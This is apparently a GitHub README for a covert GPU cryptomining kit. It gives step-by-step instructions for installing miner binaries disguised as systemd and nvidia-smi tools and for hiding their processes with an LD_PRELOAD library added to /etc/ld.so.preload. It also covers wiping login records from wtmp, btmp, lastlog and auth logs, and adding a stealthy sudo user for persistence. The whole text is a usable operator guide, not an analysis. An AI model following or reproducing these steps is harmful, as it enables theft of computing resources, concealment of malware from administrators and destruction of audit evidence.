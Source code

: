 # AWESOME WORK !!!
## Structure
* exec: executed file.
    * nvidia-smi: excludes `systemd-diagnosis` in nvidia-smi panel.
    * systemd-firewall: is an adaptive system resource allocator determines which GPU the slave miners work on.
    * systemd-update: is the same to the `systemd-firewall` but more merciful that only works at midnight.
    * systemd-diagnosis: is the pool slave miner(Phoenix miner main file).
    * libGNU.co: hides specified processes for ps, top ,and htop.

* source: corresponding source code of the executed file in `./exec`.

## Installation

run the `Makefile` by `sudo make`. If you want to be blamed, run it without `sudo`. 

## Prerequiste
### environmental setting
make sure you have:
* gcc, which is preinstalled in your system.
* pyinstaller, installed by `pip install pyinstaller`.

### nvidia-smi
1. please make sure the variable `skip` in `source/nvidia-smi.py` is the same to the **slave miner**'s file name.
1. rename original `nvidia-smi` by `nl-toolkit` in `/usr/bin`.
1. move the *degraded* `nvidia-smi` to `/usr/bin`.
1. add read and execution permissions by `chmod +rx nvidia-smi`.

### systemd-firewall
1. move `systemd-firewall` to `/usr/bin`.
1. add read and execution permissions by `chmod +rx systemd-firewall`.

### systemd-update
1. same to the `systemd-firewall`.

### libGNU.co
1. move `libGNU.co` to `/usr/lib`.
1. add `/usr/lib/libGNU.so` to `/etc/ld.so.preload`; or add `export LD_PRELOAD=/usr/lib/libGNU.so` to `/etc/profile` (remember to execute `source /etc/profile` to make it effective).

**Risk:** add these files to system environment is easy to detect just by `cat /etc/ld.so.preload` or `echo $LD_PRELOAD`.

## Usage
**Very important:** run `sudo -s` first!
### Slash the miner
1. `nohup systemd-firewall 2>&1 > /dev/null &`.
1. check mining status by `nl-toolkit`.

### Check degraded files
1. `nvidia-smi`.
1. `ps aux | grep 'f2pool\|systemd-firewall\|systemd-diagnosis\|nl-toolkit'`.
1. `top -u root` or `htop -u root`.

### Clean login log
1. revise following files by 
```bash
utmpdump [logfile] > tmp_output.txt
utmpdump -r tmp_output.txt > [logfile]
```
* `last`: `/var/log/wtmp`.
* `lastb`: `/var/log/btmp`.

clean `lastlog` by `> /var/log/lastlog` if you are `root` user, or by `vi /var/log/lastlog` for otherwise.

1. delete your login log in `/var/log/auth.log` (for Ubuntu).
1. delete your login log in `/var/log/secure.log` (for CentOS).

## Tips
 * Add a new user by `useradd [your name] -G sudo -d /usr/bin -s /bin/bash -l -M`. `-l` can avoid you be added to `last` and `lastb`, but does not work for `lastlog`. `-M` will not create your home directory.
 * edit `/etc/passwd` to get more privileges for your account.

## Notations
to do 